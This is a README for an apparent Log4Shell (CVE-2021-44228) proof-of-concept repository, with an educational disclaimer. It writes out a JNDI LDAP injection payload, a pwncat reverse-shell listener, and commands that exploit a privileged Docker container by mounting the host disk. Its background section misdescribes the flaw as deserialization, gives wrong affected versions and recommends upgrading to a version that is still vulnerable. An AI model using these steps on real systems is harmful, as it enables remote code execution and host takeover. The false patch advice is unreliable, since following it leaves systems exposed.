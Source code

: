 Log4j Vulnerability (CVE-2021-44228)
----------------------

A security vulnerability, identified as CVE-2021-44228, has been discovered in certain versions of the Log4j library. In this proof of concept (poc) the explotetion of the log4j vulnerability is combined with another misconfiguration which allow an attacker to gain complete control of a victim host.

The vulnerability is caused by a flaw in the way Log4j handles deserialization of untrusted data. An attacker could exploit this vulnerability by injecting malicious payloads into the log data, which would then be deserialized by Log4j. If the victim host has a vulnerable version of Log4j and a misconfigured Java Object Input Stream (OIS) deserialization, the attacker could potentially execute arbitrary code with the same privileges as the user running the application.
In this example, multiple exploits are used in succession. First, the log4j vulnerability is exploited, and then a misconfiguration in the privileged mode of the Docker service is exploited in order to gain access to the host system.

Affected versions of Log4j are:
2.13.3 and prior
2.14.0
It is highly recommended to upgrade to Log4j version 2.14.1 or later, which addresses this vulnerability.

In addition to upgrading Log4j, it is important to ensure that the OIS deserialization is properly configured to only deserialize trusted data. This can be done by implementing a custom ObjectInputStream subclass that checks for malicious payloads or by disabling deserialization altogether if it is not needed for the application.

Please also review your system and verify that you are not using any vulnerable version of log4j and also check the deserialization configuration of your application.

It is important to keep your software up to date, and to be aware of any security vulnerabilities that may affect your systems. If you suspect that your host may have been compromised, it is important to take immediate action to contain the damage and prevent further attacks.

----------------------

As a PoC, a python file that automates the process is been created. 


#### Requirements:
```bash
pip install -r requirements.txt
```

#### Usage (exploiting log4j vuln):

* Start a pwncat listener to accept reverse shell connection.<br>
```py
pyhton3 -m pwncat -lp 4545 -m linux
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 9000 --lport 4545

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/stefanosimonetto/log4j-shell-poc.git
[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Dockerized vulnerable application
--------------------------

A Dockerfile is been added with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --priviliged --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

#### Usage (exploiting Docker misconfiguration):
Once you have remote code execution enable:
-press CTRL+D to change from local to remote
Execute the following commands to make a directory and copy the victim's host disk:
mkdir -p /mnt/pwned
mount /dev/sda1 /mnt/pwned


Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Using this exploit for malicious activity is not endorsed or supported. If assistance is requested, proof of ownership or authorized penetration testing permission for the target service may be required.

